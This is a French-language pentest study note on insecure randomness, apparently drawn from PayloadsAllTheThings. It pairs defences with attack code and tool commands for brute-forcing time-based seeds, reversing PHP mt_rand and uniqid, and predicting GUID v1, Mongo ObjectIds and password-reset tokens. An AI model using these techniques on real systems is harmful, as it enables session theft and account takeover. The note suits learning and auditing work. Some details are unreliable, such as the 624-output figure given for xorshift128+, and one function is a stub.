

# Insecure Randomness

> [!info] **En 1 phrase**
> L'aléa **prévisible** (PRNG non sécurisé, seed = temps, GUID/uniqid temporels) rend des valeurs censées être
> secrètes — sessions, tokens, OTP, liens de reset, nonces — **devinalbes et réjouables**
> → vol de session, **Account Takeover (ATO)**, lecture de données d'autres utilisateurs.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Randomness/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Un PRNG classique est **déterministe** : si on connaît le seed, on peut régénérer toute la séquence.
> Quand le seed vient de l'horloge (`time()`, `microtime()`, `uniqid`) ou d'un `random.seed()` explicite,
> l'espace de recherche est minuscule → **bruteforce trivial**.

---

## Ce qui est prévisible (et pourquoi c'est critique)

| Objet | Risque si prévisible |
|---|---|
| **Session ID** | Session hijacking direct |
| **Tokens anti-CSRF / nonces** | Bypass de protections |
| **OTP / codes 2FA** | Auth factor by-passé → ATO |
| **Liens de reset de mot de passe** | Reset du compte d'un autre user → ATO |
| **GUID v1 / UUID temporels** | Prédiction d'ID → IDOR / data leak |
| **ID d'objets (Mongo ObjectId)** | Énumération et prédiction → IDOR |
| **Tokens anti-bruteforce** | Protections inutiles |

---

## Fonctions faibles par langage

| Langage | Fonctions faibles | Notes |
|---|---|---|
| **Python** | `random.random()`, `random.randint()`, `random.seed(seed)` | Mersenne Twister, seed prédictible |
| **PHP** | `rand()`, `srand()`, `mt_rand()`, `mt_srand()`, `uniqid()` | `mt_rand` = MT19937, seed 32-bit |
| **Java** | `java.util.Random` | LCG 48 bits, faible ; utiliser `SecureRandom` |
| **JavaScript** | `Math.random()` | V8 = xorshift128+ ; jamais pour la crypto |
| **C / C++** | `rand()`, `srandom()` | LCG, seed souvent `time(NULL)` |
| **Bases de données** | `RAND()` (MySQL, pas `RANDOMBLOB`/crypto) | SQLi + `RAND(seed)` exploitable |
| **Génériques** | `md5(time())`, `uniqid()`, `microtime()` concaténés | « on a hashé, donc c'est sûr » : faux |

> [!warning] **Règle** : tout ce qui est sécurité (tokens, sessions, OTP, reset) DOIT venir d'un
> **CSPRNG** (`secrets`, `random.SystemRandom`, `SecureRandom`, `crypto.getRandomValues`, `/dev/urandom`).

---

## Attaque 1 — Seeds basés sur le temps

Le PRNG est seedé avec l'heure courante → prédictible pour qui connaît/estime le seed.

```py
import random
import time

seed = int(time.time())
random.seed(seed)
print(random.randint(1, 100))
```

L'attaque : régénérer le bon aléa à partir d'un timestamp connu. Exemple pour la date `2024-11-10 13:37` :

```python
import random
import time

# Seed basé sur le timestamp fourni
seed = int(time.mktime(time.strptime('2024-11-10 13:37', '%Y-%m-%d %H:%M')))
random.seed(seed)

# Régénérer le nombre aléatoire
print(random.randint(1, 100))
```

### Bruteforce du seed (fenêtre temporelle)

```py
import random
import time

# On connaît la valeur observée "target" dans la même fenêtre (± 3600 s)
target = 42  # valeur volée côté victime
now = int(time.time())
for seed in range(now - 3600, now + 1):
    random.seed(seed)
    if random.randint(1, 100) == target:
        print("Seed trouvé :", seed)
        break
```

> [!tip] **Estimer la fenêtre** : serveur, load balancer, timezone → resserrer le bruteforce.
> `time()` (secondes) → ~8 M de seeds/jour = trivial. `microtime()`/`milliseconds` → ~1000× plus large.

---

## Attaque 2 — PHP `rand` / `mt_rand` + seed

- `rand()` / `srand()` : faible (LCG), prédictible, seed 32 bits.
- `mt_rand()` / `mt_srand()` : Mersenne Twister (MT19937), seed 32 bits → **bruteforce possible**, et même **récupération sans bruteforce**.

### Récupération du seed sans bruteforce (MT19937)

Avec **deux sorties** de `mt_rand()` consécutives, le seed se récupère via
[ambionics/mt_rand-reverse](https://github.com/ambionics/mt_rand-reverse) (Charles Fol, 2020) :

```ps1
# Génération côté victime (n'importe quel serveur PHP)
./display_mt_rand.php 12345678 123
712530069 674417379

# Attaque : reverse le seed avec les 2 valeurs + les plages utilisées
./reverse_mt_rand.py 712530069 674417379 123 1
```

> [!info] **Principe** : MT19937 est réversible mathématiquement (twist inverse + untemper).
> 2 outputs suffisent à reconstruire l'état interne → on ne bruteforce plus le seed : on le **résout**.

```py
# Bruteforce simple du seed 32-bit de mt_srand (si on n'a pas l'outil ci-dessus)
import ctypes

# Exemple d'implémentation MT19937 (identique à PHP) pour tester un seed candidat
def mt_rand(seed, min=1, max=100):
    # ... implémentation MT19937 / extraction → comparer avec l'output observé
    pass
```

> [!warning] **Piège** : la sortie de `mt_rand(min, max)` est un **intervalle**, pas la valeur brute de l'état
> MT → il faut connaître `min`/`max` (souvent `mt_rand(10000, 99999)` pour les OTP) pour lancer le reverse.

---

## Attaque 3 — Java `java.util.Random`

```java
import java.util.Random;
// Weak : LCG 48 bits
Random r = new Random();              // seed = System.nanoTime() (prévisible)
String token = String.format("%06d", r.nextInt(1000000));
```

- `new Random()` (sans seed) = `System.nanoTime()` → estimable.
- LCG 48 bits → à partir de 2 valeurs consécutives, on résout l'état (voir outils `randcrack`, `java-random-prediction`).

```java
// Correct : CSPRNG
import java.security.SecureRandom;
SecureRandom sr = new SecureRandom();
byte[] b = new byte[32];
sr.nextBytes(b);
```

---

## Attaque 4 — JS `Math.random()`

```js
// Weak : V8 (Chrome/Node) = xorshift128+ — seedé de façon déterministe et reconstruit
const token = Math.random().toString(36).slice(2);   // token prévisible
```

> [!info] Avec **624 sorties consécutives** (version V8 correspondante), on reconstruit l'état interne
> de xorshift128+ et on prédit TOUT le futur (et le passé). Outils : `math-random-predict`/`mathextra`.
> Dans les navigateurs → même principe sur SpiderMonkey/JSC.

```js
// Correct : CSPRNG
const token = crypto.getRandomValues(new Uint8Array(32));
```

---

## Attaque 5 — GUID / UUID

Un GUID/UUID = 128 bits, 5 groupes hexadécimaux : `550e8400-e29b-41d4-a716-446655440000`.
Seule la **version 4** est aléatoire ; les autres sont **prévisibles**.

Structure : `xxxxxxxx-xxxx-Mxxx-Nxxx-xxxxxxxxxxxx` (M = version, N = variante).

| Version | Base |
|---|---|
| 0 | uniquement `00000000-0000-0000-0000-000000000000` |
| 1 | **temps** (timestamp 60 bits) + clock sequence + node/MAC |
| 2 | réservée RFC 4122 (souvent absente) |
| 3 | hash **MD5** |
| 4 | aléatoire (**la seule "sûre"** en génération) |
| 5 | hash **SHA1** |

### Attaquer un GUID v1 (temporel)

Outil : [intruder-io/guidtool](https://github.com/intruder-io/guidtool) — inspecte et attaque les GUID v1.

```ps1
# Inspecter un GUID v1 : on en déduit date, MAC, clock sequence
$ guidtool -i 95f6e264-bb00-11ec-8833-00155d01ef00
UUID version: 1
UUID time: 2022-04-13 08:06:13.202186
UUID timestamp: 138691299732021860
UUID node: 91754721024
UUID MAC address: 00:15:5d:01:ef:00
UUID clock sequence: 2099

# Prédire des GUID v1 émis dans une fenêtre autour d'un instant connu
$ guidtool 1b2d78d0-47cf-11ec-8d62-0ff591f2a37c -t '2021-11-17 18:03:17' -p 10000
```

> [!warning] MAC dans l'UUID v1 = fuite d'infos réseau + prédiction par incrément du timestamp
> (10000 ticks/10 ms). Un GUID v1 en reset link / accès fichier = ATO direct.

---

## Attaque 6 — Mongo ObjectId

Les ObjectId MongoDB (12 octets) sont **prévisibles par construction** :

| Champs | Taille | Contenu |
|---|---|---|
| **Timestamp** | 4 octets | seconde Unix de création |
| **Machine Identifier** | 3 octets | hostname/IP du process |
| **Process ID** | 2 octets | PID du serveur MongoDB |
| **Counter** | 3 octets | compteur incrémenté (aléa initial unique) |

Exemples réels : `5ae9b90a2c144b9def01ec37`, `5ae9bac82c144b9def01ec39`
→ les deux partagent `process`/`counter` proche : on peut prédire les suivants.

### Prédiction

Outil : [andresriancho/mongo-objectid-predict](https://github.com/andresriancho/mongo-objectid-predict)

```ps1
./mongo-objectid-predict 5ae9b90a2c144b9def01ec37
5ae9bac82c144b9def01ec39
5ae9bacf2c144b9def01ec3a
5ae9bada2c144b9def01ec3b
```

### Décomposition d'un ObjectId (Python)

```py
def MongoDB_ObjectID(timestamp, process, counter):
    return "%08x%10x%06x" % (timestamp, process, counter)

def reverse_MongoDB_ObjectID(token):
    timestamp = int(token[0:8], 16)
    process = int(token[8:18], 16)
    counter = int(token[18:24], 16)
    return timestamp, process, counter

def check(token):
    (timestamp, process, counter) = reverse_MongoDB_ObjectID(token)
    return token == MongoDB_ObjectID(timestamp, process, counter)

tokens = ["5ae9b90a2c144b9def01ec37", "5ae9bac82c144b9def01ec39"]
for token in tokens:
    (timestamp, process, counter) = reverse_MongoDB_ObjectID(token)
    print(f"{token}: {timestamp} - {process} - {counter}")
```

> [!tip] Les 2 ObjectId consécutifs donnent le **counter de départ** → on prédit tous les suivants.
> Si le token sert d'ID de ressource (document partagé, invitation, ticket) → **IDOR** par prédiction.

---

## Attaque 7 — `uniqid()` et les secrets basés sur le temps

`uniqid()` (PHP) = `sec` (8 hex) + `usec` (5 hex) → **rétro-convertible en timestamp**.

Exemples : `6659cea087cd6`, `6659cea087cea` — ou leur `sha256(uniqid)` :
`4b26d474c77daf9a94d82039f4c9b8e555ad505249437c0987f12c1b80de0bf4`...

```py
import math
import datetime

def uniqid(timestamp: float) -> str:
    sec = math.floor(timestamp)
    usec = round(1000000 * (timestamp - sec))
    return "%8x%05x" % (sec, usec)

def reverse_uniqid(value: str) -> float:
    sec = int(value[:8], 16)
    usec = int(value[8:], 16)
    return float(f"{sec}.{usec}")

tokens = ["6659cea087cd6", "6659cea087cea"]
for token in tokens:
    t = float(reverse_uniqid(token))
    d = datetime.datetime.fromtimestamp(t)
    print(f"{token} - {t} => {d}")
```

> [!info] **Même hashé** (`sha256(uniqid)`, `md5(uniqid)`) : le token reste prévisible car la source est le temps.
> Un reset token = `sha256(uniqid())` → on génère les candidats autour de l'heure de la demande → **ATO**.
> Ref. : [python-uniqid](https://github.com/Riamse/python-uniqid), [php-src uniqid.c](https://github.com/php/php-src/blob/master/ext/standard/uniqid.c)

---

## Attaque 8 — Algorithmes custom (générés maison)

Risqué par construction, mais répandu en prod :

```php
$token = md5($emailId).rand(10,9999);
$token = md5(time()+123456789 % rand(4000, 55000000));
```

> [!warning] Concaténer `md5()`/`uniqid()`/`rand()` ne crée **pas** de l'aléa sûr : le hash n'ajoute
> que du déterministe sur une source prévisible.

### Attaque générique + « Sandwich Attack »

Outil : [AethliosIK/reset-tolkien](https://github.com/AethliosIK/reset-tolkien) — exploitation des secrets basés sur le temps.

```ps1
# 1) Détecter : identifier le format/la fenêtre du token, avec les préfixes/suffixes connus
reset-tolkien detect 660430516ffcf -d "Wed, 27 Mar 2024 14:42:25 GMT" --prefixes "attacker@example.com" --suffixes "attacker@example.com" --timezone "-7"

# 2) Sandwich : deux requêtes encadrant l'instant cible, puis prédire les tokens entre les deux bornes
reset-tolkien sandwich 660430516ffcf -bt 1711550546.485597 -et 1711550546.505134 -o output.txt --token-format="uniqid"
```

> [!info] **Sandwich Attack** : envoyer une requête (ex. reset) juste **avant** et **juste après** l'instant
> du token victime → les 2 bornes encadrent le timestamp réel → bruteforce ciblé entre `-bt` et `-et`.
> Variante **multi-sandwich** avec Mongo ObjectId pour du monitoring temps réel d'invitations.

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Identifier la source de l'aléa** | Code : `random.*`, `rand()`, `mt_rand`, `Math.random`, `Random`, `uniqid`, `time()+hash` → suspect |
| **Tester la prédictibilité** | Générer 2-3 tokens proches (2 demandes de reset) → sont-ils corrélés/incrémentaux ? |
| **Collecter plusieurs valeurs** | Plus on a d'outputs, plus la reconstruction est facile (2 pour mt_rand, 624 pour xorshift128+) |
| **Rejouer hors fenêtre** | Une valeur générée, déchiffrée, doit rester stable dans le temps |
| **Utiliser un CSPRNG** | Python `secrets` / `random.SystemRandom` ; PHP `random_bytes()`, `openssl_random_pseudo_bytes` ; Java `SecureRandom` ; JS `crypto.getRandomValues` ; shell `/dev/urandom` |
| **Ne jamais seed soi-même** | Bannir `seed(time)`, `mt_srand(time)`, `new Random()` sans argument explicite sur des données de sécurité |
| **Identifier les IDs** | Pas de GUID v1 / ObjectId / `uniqid` en tant qu'identifiant d'accès |
| **Audit** | Grep du code : `seed(`, `mt_srand(`, `srand(`, `Math.random`, `new Random()`, `uniqid(`, `time()` dans les tokens |
| **Hashes = pas un remède** | `md5/sha256(uniqid/time)` reste prédictible → l'attaquant hash ses candidats |

---

## Tips & Pièges

> [!tip] **Ordre logique d'attaque**
> 1. **Identifier** la source de l'aléa (fingersprint du format : hex hex, `sec+usec`, UUID v1, 24 hex ObjectId…)
> 2. **Collecter** plusieurs valeurs (demandes de reset, sessions, invitations, enregistrements)
> 3. **Prédire** : estimer le seed (temps/fenêtre) → régénérer → **rejouer** la valeur sur la victime.

> [!warning] **Pièges**
> - **Version/langage** : `mt_rand` PHP 7.1+ a changé (plages uniformes) ; la reconstruction MT dépend de la version et des `min`/`max`. Tester sur une instance locale identique.
> - **Le seed peut être global** : `srand()` appelé ailleurs dans le code réinitialise la séquence → les valeurs ne sont pas consécutives.
> - **Horloges différentes** : `time()` serveur ≠ heure locale → prendre les headers `Date`/`Server` et l'heure GMT.
> - **Arrondis** : `uniqid` stocke des microsecondes, les secondes du timestamp ressortent en décimales dans le reverse (`sec.usec`) — ne pas confondre avec un float standard.
> - **Counter d'ObjectId** : initialisé aléatoirement au boot du process → une seule valeur ne suffit pas, il en faut **deux** pour déduire l'incrément.
> - **`Math.random` ≈ 52 bits seulement** : même version 4 de UUID construite dessus = faible.
> - **Impact réel** : un reset-token/OTP prédictible = **Account Takeover** sans interaction → toujours vérifier l'impact avant de s'arrêter au PoC de "prédiction".

---

## Liens

- [[Type Juggling| Type Juggling]]
- [[Attaques JWT| JWT]]
- [[Business Logic| Business Logic]]
- [[Injection SQL| Injection SQL]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Insecure Randomness](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Randomness/README.md)
- Ref. : [Breaking PHP's mt_rand() with 2 values — Charles Fol](https://www.ambionics.io/blog/php-mt-rand-prediction) · [In GUID We Trust — Intruder](https://www.intruder.io/research/in-guid-we-trust) · [Unsecure time-based secret & Sandwich Attack — AethliosIK](https://www.aeth.cc/public/Article-Reset-Tolkien/secret-time-based-article-en.html)
